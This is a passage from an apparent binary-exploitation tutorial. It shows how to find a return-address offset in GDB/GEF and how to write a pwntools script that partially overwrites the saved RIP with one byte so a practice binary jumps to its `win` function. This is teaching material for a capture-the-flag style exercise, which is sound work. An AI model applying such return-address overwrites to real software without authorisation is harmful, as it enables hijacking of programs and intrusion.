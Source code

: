 In this case the `offset` if `36` as we can in the disassembly. Now let us give the standard pattern as input and find the `RIP` value.

<img src="https://raw.githubusercontent.com/manasghandat/manasghandat.github.io/master/assets/img/Images/Intro_to_pwn_3/6.png" alt="Breakpoint output">

In the above case the address of `win` function is `0x555555555169` which can be found using the following command:

```bash
p/x &win
```
Now if we somehow write the last byte to `0x69` we can call the `win` function. We can write one byte using the pwntools `p8` function. Thus the exploit will be

```py
from pwn import *

elf = context.binary = ELF("./kek",checksec=False)
p = elf.process()

gdb.attach(p,'''
    init-gef
    b *vuln+36
''')

payload = b"a"*0x28 + p8(0x69)
p.send(payload)


p.interactive()
```

# Resources

<a href = "https://elixir.bootlin.com/linux/latest/source/arch/x86/include/asm/stackprotector.h#L55">boot_init_stack_canary function</a><br>
<a href = "https://elixir.bootlin.com/linux/latest/source/include/linux/sched.h#L966">Linux task_struct</a>
